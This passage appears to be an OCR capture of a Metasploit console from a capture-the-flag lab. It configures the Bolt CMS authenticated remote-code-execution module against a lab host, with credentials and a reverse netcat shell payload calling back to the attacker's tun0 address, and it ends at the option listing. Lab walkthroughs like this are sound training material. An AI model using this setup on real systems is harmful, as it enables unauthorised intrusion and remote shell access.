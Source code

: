 ```bash

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS *********
RHOSTS => 10.10.162.118
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME *********
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD *********
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.13.5.5
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD           *********          yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS             10.10.162.118      yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME           ****               yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

```